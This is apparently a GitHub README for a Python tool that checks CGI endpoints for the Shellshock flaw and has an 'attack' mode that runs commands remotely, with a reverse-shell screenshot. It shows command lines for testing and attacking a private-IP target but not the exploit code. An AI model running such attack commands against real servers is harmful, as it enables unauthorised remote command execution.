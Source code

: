 # effectiveShellShocker
This is a Python script that tests for http shellshocker vulnerability. If it exists, it allows you to run commands remotely.

Simple Usage:
```bash
python3 effectiveShellShocker.py -h
```
![Help](Images/help.png)

```bash
python3 effectiveShellShocker.py test http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Test](Images/test.png)

```bash
python3 effectiveShellShocker.py attack http://172.16.80.22 /cgi-bin /calendar.cgi
```
![Attack](Images/attack.png)

![Reverse Shell](Images/reverseshell.png)

Thank you
